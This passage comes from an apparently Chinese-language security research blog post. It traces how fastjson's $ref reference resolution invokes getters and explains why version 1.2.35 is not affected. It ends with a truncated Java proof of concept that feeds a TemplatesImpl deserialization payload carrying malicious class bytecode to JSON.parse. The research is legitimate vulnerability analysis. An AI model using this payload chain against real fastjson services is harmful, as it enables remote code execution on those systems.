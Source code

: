这个Serializer是一个ASMSerializer，如果之前看过我的fastjson分析，就知道这后面的流程其实和JSON.toJSON的流程一样了

https://godownio.github.io/2024/10/06/fastjson-liu-cheng-fen-xi-bu-han-poc/#toJSON%E8%A7%A6%E5%8F%91getter

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241024164904035.png)

getFieldValue进一步调用getPropertyValue

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241024164951200.png)

然后调用get

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241024165046197.png)

然后反射执行getter

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241024165125865.png)



## 总结

如果我们输出parse反序列化解析后的Object，发现`{"$ref":"$[0].cmd"}`解析后的值是calc，这种引用的方式为了返回value，调用了getter

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241024165503636.png)



## 为什么1.2.35 $ref不能触发

1.2.35的DefaultJSONParser.handleResolveTask不是直接调用JSONPath.eval

而是判断了refValue需要为JSONObject类

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241024170248058.png)

> 什么反向修复？





## fastjson $ref调用TemplatesImpl

搞jackson的时候提到，jackson 没有setter的情况下会调用getter，于是有TemplatesImpl链。我一拍大腿说那fastjson通过$ref也可以啊！POC

```java
public class Id_MINIMAL_Class_TemplatesImpl {
    public static void main(String[] args) throws IOException {
        String exp = readClassStr("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\TemplatesImpl_RuntimeEvil.class");
        String jsonInput = aposToQuotes("[{'@type':'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',\n" +
                "'transletBytecodes':['"+exp+"'],\n" +
                "'transletName':'test'},\n" +
                "{\"$ref\":\"$[0].outputProperties\"}\n" +
                "]");
        System.out.printf(jsonInput);
        JSON.parse(jsonInput);
    }

    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }

    public static String readClassStr(String cls) throws IOException {
        byte[] code1 = Files.readAllBytes(Paths.get("target/classes/TemplatesImpl_RuntimeEvil.class"));
```